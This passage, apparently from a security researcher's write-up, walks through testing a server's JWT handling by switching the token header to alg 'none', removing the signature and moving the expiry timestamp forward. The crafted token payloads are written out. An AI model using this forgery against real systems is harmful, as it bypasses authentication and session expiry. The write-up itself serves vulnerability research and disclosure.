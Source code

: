 I used Burp's "Repeater" function to send this request again after the expiration time had passed. The server response confirmed that it was checking the expiration timestamp in the JWT:

`{"message":"Session token expired","messageCode":"267"}`

Knowing that the server was checking the expiration, I could attempt to modify the signed JWT to move the expiration date into the future. If I could modify this JWT by tampering with the expiration and have the server accept it as valid, that would confirm the presence of a vulnerability.

The first step, was to modify the algorithm JSON block to have the JWT declare itself as using `none` as the signing algorithm:

```
{"alg":"none"}{
  "sub": "57XXXXX",
  "exp": 1567546906,
  "id": "44XXXXXXX",
  "sId": "6394",
  "isTU": false,
  "n": "B0035XXXXX"
}.+s.| .¡;ÛGjÊZ{...ävð`ÂI.¾ô
UòÚÁ1õ¾üíÔ.ñ..¢Z.+X. ¬.!VÀ.tâfã3=kR 
```

Having changed the algorithm, the signature block was no longer required, so that garbage at the end could be removed entirely:

```
{"alg":"none"}{
  "sub": "57XXXXX",
  "exp": 1567546906,
  "id": "44XXXXXXX",
  "sId": "6394",
  "isTU": false,
  "n": "B0035XXXXX"
}
```

I could then modify the expiration value to move it into the future. Again, using CyberChef, this time the "To UNIX Timestamp" operation. I arbitrarily chose 1st October, which at the time was almost a month in the future:

2019-10-01T00:00:00 -> `1569888000`

And replaced the expiration value:


```
{"alg":"none"}{
  "sub": "57XXXXX",
  "exp": 1569888000,
  "id": "44XXXXXXX",
  "sId": "6394",
  "isTU": false,
  "n": "B0035XXXXX"
}
```
